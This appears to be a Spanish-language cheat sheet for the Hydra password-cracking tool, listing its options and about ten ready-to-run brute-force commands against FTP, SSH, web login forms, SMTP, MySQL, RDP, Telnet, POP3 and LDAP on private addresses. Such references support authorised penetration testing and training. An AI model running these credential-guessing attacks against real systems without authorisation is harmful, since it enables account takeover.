# Hydra

Hydra es una herramienta poderosa para la craqueo de contraseñas. Aquí tienes una guía completa sobre su uso:

## Sintaxis Básica

```ruby
hydra -l/-L <usuario/lista> -p/-P <contraseña/diccionario> <dirección IP> <protocolo>
```

## Parámetros Clave

- `-l`: Especificar un único nombre de usuario
- `-L`: Usar una lista de nombres de usuario
- `-p`: Especificar una única contraseña
- `-P`: Usar un diccionario de contraseñas
- `-s`: Especificar un número de puerto
- `-o`: Guardar los resultados del ataque en un archivo

## Opciones Avanzadas

- `-t`: Establecer el número de conexiones paralelas por objetivo
- `-w`: Tiempo de espera entre conexiones
- `-f`: Detener el ataque después de encontrar el primer par usuario/contraseña válido
- `-v`: Modo detallado, muestra usuario+contraseña para cada intento

## Ejemplos

### Fuerza Bruta en FTP

```ruby
hydra -L usuarios.txt -P contraseñas.txt 192.168.1.100 ftp
```

### SSH con Puerto Específico

```ruby
hydra -l root -P contraseñas_comunes.txt 10.0.0.1 ssh -s 2222
```

### HTTP PostForm

```ruby
hydra -l admin -P rockyou.txt 192.168.1.10 http-post-form "/login.php:username=^USER^&password=^PASS^:Login failed"
```

### SMTP con Salida de Resultados

```ruby
hydra -L usuarios.txt -P contraseñas.txt smtp://10.0.0.1 -o resultados_smtp.txt
```

### Ataque a MySQL

```ruby
hydra -L usuarios_mysql.txt -P contraseñas_mysql.txt 192.168.1.200 mysql
```

### Autenticación RDP (Escritorio Remoto)

```ruby
hydra -L usuarios_rdp.txt -P contraseñas_rdp.txt 192.168.1.150 rdp
```

### Autenticación Telnet

```ruby
hydra -l admin -P contraseñas_telnet.txt 192.168.1.50 telnet
```

### HTTP GET con Autenticación Básica

```ruby
hydra -L usuarios_http.txt -P contraseñas_http.txt 192.168.1.20 http-get /admin
```

### Ataque a POP3

```ruby
hydra -L usuarios_pop3.txt -P contraseñas_pop3.txt 192.168.1.30 pop3
```

### Autenticación LDAP

```ruby
hydra -L usuarios_ldap.txt -P contraseñas_ldap.txt ldap://192.168.1.40
```
